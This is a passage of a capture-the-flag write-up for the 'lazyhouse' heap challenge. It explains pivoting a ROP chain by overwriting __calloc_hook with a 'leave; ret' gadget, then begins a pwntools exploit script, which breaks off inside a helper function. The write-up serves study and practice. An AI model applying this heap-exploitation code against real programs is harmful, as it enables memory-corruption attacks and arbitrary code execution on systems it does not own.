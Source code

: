 We can make ROP_CHAIN when we buy the house.

It is interesting that when we call ```__calloc_hook```, the register ```rbp``` is the same value as size.

So, we change ```__calloc_hook``` to a Gadget ```leave; ret``` to do ROP at the ROP_CHAIN by calloc(&heap_chunk + ?).

### EXP
```
from pwn import *

local=1
pc='./lazyhouse'
aslr=True
context.log_level="debug"
context.word_size = 64
context.os = "linux"
context.endian = "little"

libc=ELF('./libc.so.6')

if local==1:
    #p = process(pc,aslr=aslr,env={'LD_PRELOAD': './ld-linux-x86-64.so.2', "LD_LIBRARY_PATH":"./"})
    p = process(pc,aslr=aslr)
    #gdb.attach(p, "b malloc_printerr")
else:
    remote_addr=['6.6.6.6', 6666]
    p=remote(remote_addr[0],remote_addr[1])

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr):
    print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

def buy_house(index, size, buf, logging = False):
    ru("Your choice: ")
    log.info("target price --> {price}".format(price = hex(size * 0xDA & 0xffffffffffffffff)))
    sl("1")
    ru("Your money:")
    money_now = int(rl().strip())
    log.info("money_now --> {money_now}".format(money_now = hex(money_now)))
    ru("Index:")
    sl(str(index))
    ru("Size:")
    sl(str(size))
    ru("Price:")
    log.info("price --> {price}".format(price = hex(int(rl().strip()))))
    if logging == True:
        return
    if(p.read(6) != "House:"):
        rl()
```